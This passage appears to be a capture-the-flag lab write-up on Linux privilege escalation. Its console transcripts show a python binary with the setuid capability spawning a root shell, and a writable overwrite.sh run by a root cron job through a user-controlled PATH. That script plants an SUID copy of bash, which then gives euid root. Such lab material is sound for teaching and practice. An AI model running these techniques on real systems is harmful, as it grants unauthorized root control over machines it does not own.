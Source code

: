 ```console
TCM@debian:~$ getcap -r / 2>/dev/null
/usr/bin/python2.6 = cap_setuid+ep
TCM@debian:~$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@debian:~# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
{: .nolineno }

No Answer

## TASK 16 : Privilege Escalation - Cron (Path)
### Click 'Completed' once you have successfully elevated the machine 

We can see that a cronjob runs with root privilege every minutes on a file in our user directory :

```console
TCM@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
TCM@debian:~$ ls
myvpn.ovpn  overwrite.sh  shell.nse  tools  x.c
TCM@debian:~$ chmod +x overwrite.sh 
# wait 1 minute
TCM@debian:~$ /tmp/bash -p
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
{: .nolineno }
